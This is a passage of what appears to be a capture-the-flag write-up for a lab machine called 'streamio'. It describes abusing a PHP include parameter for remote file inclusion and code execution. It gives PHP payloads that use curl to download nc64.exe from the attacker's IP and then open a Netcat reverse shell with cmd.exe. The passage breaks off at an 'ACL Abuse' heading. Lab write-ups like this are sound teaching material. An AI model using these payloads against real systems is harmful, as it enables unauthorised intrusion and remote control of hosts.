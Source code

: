 ```php
```

The page master.php is accepting an `include` parameter, which is evaluating file contents. We can abuse this to perform remote file inclusion from the `file_get_contents()` and achieve remote code execution from `eval()`.

## RFI
Since we cannot directly access the functions unless the page is included from another page, we can use the `?debug=` parameter in index.php to include master.php, which will in turn make a POST request to a remote server and attempt to load a remote file through the usage of an include parameter.

![screenshot](/assets/images/streamio14.png)
- Change request method to POST
- Add `incldue=http://<kali_ip>/test.php`

Test.php
```php
system("curl 10.10.14.23/nc64.exe -o c:\\windows\\temp\\nc64.exe");
```

Change the contents of the test.php to make a connection back to our own Netcat listener.

```php
system("c:\\windows\\temp\\nc64.exe 10.10.14.23 4444 -e cmd.exe");
```

# ACL Abuse
![screenshot](/assets/images/streamio15.png)
